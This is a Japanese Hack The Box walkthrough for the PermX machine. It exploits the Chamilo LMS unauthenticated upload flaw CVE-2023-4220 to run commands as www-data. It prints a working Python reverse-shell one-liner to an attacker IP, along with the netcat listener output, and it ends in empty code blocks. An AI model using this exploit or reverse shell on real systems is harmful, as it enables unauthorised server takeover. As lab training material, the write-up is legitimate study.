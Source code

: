googleで同様に検索したところ
[https://github.com/charlesgargasson/CVE-2023-4220]が見つかった
Chamilo LMS <= 1.11.24 (Beersel 31/08/2023)
- 攻撃者は認証なしで、任意のコードを実行するPHPスクリプトをアップロード可能。
- サーバー上で任意のシェルコマンドを実行可能。
- 最悪の場合、完全なサーバー制御を取得。

---

# Foothold
CVE-2023-4220を利用して、poc.shに[github](https://github.com/charlesgargasson/CVE-2023-4220)のREADMEに書いてあるシェルスクリプトを実行してみる。
www-dataとしてログインできたことがわかる。
```bash
┌─[sg-dedivip-1]─[10.10.14.6]─[snowyowl644@htb-umlp2sdxq9]─[~/HTBScript]
└──╼ [★]$ nano poc.sh
┌─[sg-dedivip-1]─[10.10.14.6]─[snowyowl644@htb-umlp2sdxq9]─[~/HTBScript]
└──╼ [★]$ ./poc.sh
bash: ./poc.sh: Permission denied
┌─[sg-dedivip-1]─[10.10.14.6]─[snowyowl644@htb-umlp2sdxq9]─[~/HTBScript]
└──╼ [★]$ chmod +x ./poc.sh
┌─[sg-dedivip-1]─[10.10.14.6]─[snowyowl644@htb-umlp2sdxq9]─[~/HTBScript]
└──╼ [★]$ ./poc.sh
The file has successfully been uploaded.uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

毎回、一つずつコマンドを変えるのはめんどくさいので、リバースシェルで接続する。
[https://www.revshells.com/]でリバースシェルを作る。
自分の場合は、bashではうまくいかないので、pythonでリバースシェルを建てられた
```bash
CMD = python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

リバースシェルの確立
```bash
└──╼ [★]$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.6] from (UNKNOWN) [10.129.254.229] 37162
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
```

Apache サーバーの Web 管理者であるwww-dataであることがわかる。cd・home
```bash

```

```bash

```

```bash

```
